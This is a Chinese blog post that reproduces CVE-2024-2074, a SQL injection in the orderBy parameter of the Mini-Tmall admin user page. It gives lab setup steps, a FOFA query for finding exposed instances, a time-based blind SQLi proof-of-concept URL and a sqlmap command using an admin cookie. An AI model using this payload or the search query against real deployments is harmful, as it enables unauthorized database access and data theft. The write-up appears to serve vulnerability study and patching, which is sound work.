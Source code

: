 #  【漏洞复现】CVE-2024-2074   
原创 fgz  AI与网安   2024-03-07 07:01  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Mini-Tmall SQL注入漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
<=  
20231017版本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BM3pibRGicmCE9RFo6DD4rmjIUUWeQU7vtJOuRGW0ewqK8tyiartVnTtibBZfAKfhP1J4k2o5xCnMkKDQ/640?wx_fmt=png&from=appmsg "")  
  
  
03  
  
—  
  
漏洞描述  
  
  
Mini-Tmall是一个  
基于Spring Boot的迷你天猫商城。  
Mini-Tmall在20231017版本及之前存在一个严重的漏洞，攻击者可以利用该漏洞通过远程执行特定操作来注入恶意SQL语句，从而获取敏感信息或控制数据库。此漏洞影响文件?r=tmall/admin/user/1/1的一些未知处理，攻击者可以通过篡改orderBy参数来达成sql注入攻击。攻击者可以通过远程方式发起攻击。  
  
  
04  
  
—  
  
环境搭建  
  
  
  
1.项目使用IntelliJ IDEA开发，请使用IntelliJ IDEA的版本控制检出功能，输入“https://gitee.com/project_team/Tmall_demo.git”拉取项目即可。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMXmRL3cEibribSOnqEU8hoicj8qLJnMF2KFZ0YcGF0f9K0CefTbVuUibveunkHsUkBjEbwoficiabuTv6A/640?wx_fmt=png&from=appmsg "")  
  
  
2.项目数据库为MySQL 5.7版本，在sqls文件夹中找到SQL文件并导入到数据库中。直接运行脚本即可，会自动创建库和表  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMXmRL3cEibribSOnqEU8hoicj2ZicUFnX6ebCcagEhA9OYakP50C7Nq7gmvczOm5L4W3ibnHty0ECrdbQ/640?wx_fmt=png&from=appmsg "")  
  
  
3.使用IDEA打开项目后，在maven面板刷新项目，下载依赖包。然后修改下数据库密码信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMXmRL3cEibribSOnqEU8hoicjhhsLbunG58WaFadIGuzIslUByqib0Ouo9Nnk0ia617FxW3OGFHLYBXbw/640?wx_fmt=png&from=appmsg "")  
  
  
4.配置数据库连接并启动SpringBootApplication即可。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMXmRL3cEibribSOnqEU8hoicjcFhQxtNFQzd7gtia1Y7eklCSjRtgg8CWTaNGCA0BCVbeZUDaSOyY1TQ/640?wx_fmt=png&from=appmsg "")  
  
  
前台地址：http://localhost:8080/tmall  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BM3pibRGicmCE9RFo6DD4rmjI0Q3zfffcicl0tmZbJjPqSiav59y9hFkuVstZrwz0Sg5E1X2MbqyOIaUA/640?wx_fmt=png&from=appmsg "")  
  
  
  
后台地址：http://localhost:8080/tmall/admin  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BM3pibRGicmCE9RFo6DD4rmjI9VNGPSbcF160dAJMwKqRY3FSEQKIpW77VdOWJzyiba3avHnPcibXu3Rw/640?wx_fmt=png&from=appmsg "")  
  
  
  
05  
  
—  
  
FOFA搜索语句  
  
  
```
icon_hash="-2087517259"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BM3pibRGicmCE9RFo6DD4rmjIWnxNOF20n6SvKftpZzw5Sl7QdOcRWGoxofV9iafOTC92ImZOCG27tYg/640?wx_fmt=png&from=appmsg "")  
  
我这个语法搜到的比较少，谁有更好的语法可以私信我一下  
  
  
06  
  
—  
  
漏洞复现  
  
  
POC：  
```
http://localhost:8080/tmall/admin/user/1/1?orderBy=7,if((length(database())=11),SLEEP(3),0)
```  
  
登录后在浏览器访问上面的url会延迟3秒，表示存在漏洞。  
  
这个漏洞先需要登录后台拿到cookie  
  
使用sqlmap跑一下，获取当前数据库名称  
```
sqlmap -u http://localhost:8080/tmall/admin/user/1/1?orderBy=* --level=5 --current-db --cookie="username=admin; JSESSIONID=56AEDFB42C10096BD3E6CD80398EC94C"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BM3pibRGicmCE9RFo6DD4rmjIiayqQn5UO5lDhN5RTRtibxNIia76W4HMXMWlQPb37uYyiaLoJM6PZLmChw/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现成功  
  
  
因为需要登录，就不写nuclei POC了  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
08  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  
  
